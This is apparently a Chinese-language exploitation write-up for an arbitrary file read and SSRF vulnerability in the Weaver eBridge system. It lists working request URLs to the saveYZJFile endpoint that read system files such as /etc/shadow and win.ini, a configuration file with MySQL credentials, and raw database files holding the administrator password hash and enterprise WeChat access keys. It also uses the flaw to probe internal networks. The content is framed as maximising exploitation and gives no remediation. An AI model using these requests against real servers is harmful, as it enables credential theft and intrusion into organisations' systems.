








# 0.前言

最近碰到了一个泛微云桥的系统，然后发现这个系统存在任意文件读取漏洞，但是目标是Windows的系统。

记录一下，如何把这个漏洞利用最大化

漏洞POC

 `http://1.1.1.1:8088/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///c://windows/win.ini&fileExt=txt`

取出ID

然后通过URL访问文件内容

`http://1.1.1.1:8088/file/fileNoLogin/4dae2e3fdecc46d3a07279383273ba6f`

# 1.读文件

首先读取常规文件，linux下的`/etc/shadow`

其次可以读取项目配置文件，获取mysql账号密码

`http://1.1.1.1:8088/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///d://ebridge/tomcat/webapps/ROOT/WEB-INF/classes/init.properties&fileExt=a.txt`

# 2.SSRF

这里除了是本地任意文件读取外，同样也支持http协议，并且可回显,在没有什么其他突破方式的情况下，可以通过这个探测内网

`http://1.1.1.1:8088/wxjsapi/saveYZJFile?fileName=test&downloadUrl=http://127.0.0.1&fileExt=a.txt`

# 3.读后台管理密码哈希

泛微云桥的后台密码是存储在，此系统自带的MySQL中的`ewechat.wx_base_user`表中,储存路径相对固定。

可以通过直接读取mysql原始数据文件的方式，来获取密码hash

`http://1.1.1.1:8088/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///D://ebridge/mysql/data/ewechat/wx_base_user.ibd&fileExt=a.txt`

sysadmin后面的就是管理员密码哈希

但是通过对泛微云桥代码进行审计，除了系统刚开始的默认密码1是通过md5进行储存的

只要修改了后台密码，密码则是通过国密进行hash运算。获取hash后，可以考虑在本地进行破解

# 4.读企业微信AK

泛微云桥是一个可以连通企业微信号和钉钉号、飞书的一款应用。如果管理员配置了微信的ak的话，可以通过读取数据表来获取

`http://1.1.1.1:8088/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///D://ebridge/mysql/data/ewechat/wx_cp_corpinfo.ibd&fileExt=a.txt`

